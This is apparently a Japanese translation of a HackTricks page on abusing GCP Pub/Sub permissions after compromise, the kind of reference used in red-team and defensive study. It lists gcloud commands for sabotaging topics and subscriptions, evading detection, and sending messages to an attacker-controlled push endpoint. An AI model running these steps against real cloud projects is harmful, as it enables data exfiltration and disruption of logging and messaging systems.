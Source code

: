 # GCP - Pub/Sub ポストエクスプロイテーション

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Pub/Sub

Pub/Subに関する詳細情報は、以下のページを確認してください：

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

トピックにメッセージを公開します。これは、**予期しないデータを送信**し、予期しない機能をトリガーしたり、脆弱性を悪用するのに役立ちます：
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

メッセージを受信するのを防ぐのに役立ちます。おそらく、検出を避けるためです。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

サブスクリプションがメッセージを受信するのを防ぐために便利で、検出を避けるためかもしれません。\
サブスクリプションが接続されていても、トピックを削除することが可能です。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

この権限を使用して、`--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key`などのトピックの設定を更新して妨害します。

### `pubsub.topics.setIamPolicy`

前述の攻撃を実行するための権限を自分に与えます。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

ウェブサーバー内のすべてのメッセージを取得します：

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

サブスクリプションを作成し、それを使用して**メッセージを取得**します:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**サブスクリプションを削除する** は、ログ処理システムやそれに類似したものを妨害するのに役立つかもしれません:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

この権限を使用して、メッセージがアクセス可能な場所（URL、Big Queryテーブル、バケット）に保存されるように設定を更新するか、単にそれを妨害します。

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

自分に以前コメントした攻撃を実行するために必要な権限を与えます。

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

スキーマをトピックに攻撃して、メッセージがそれを満たさないようにし、したがってトピックが中断されます。\
スキーマがない場合は、作成する必要があるかもしれません。

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

これはスキーマを削除するように見えるかもしれませんが、スキーマに適合しないメッセージを送信することはできません。しかし、スキーマが削除されるため、実際にはメッセージはトピックに入ることはありません。したがって、これは**無駄です**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

自分に以前コメントされた攻撃を実行するために必要な権限を与えます。

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

これは、すべての未ACKメッセージのスナップショットを作成し、それらをサブスクリプションに戻します。攻撃者にはあまり役に立ちませんが、ここにあります:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
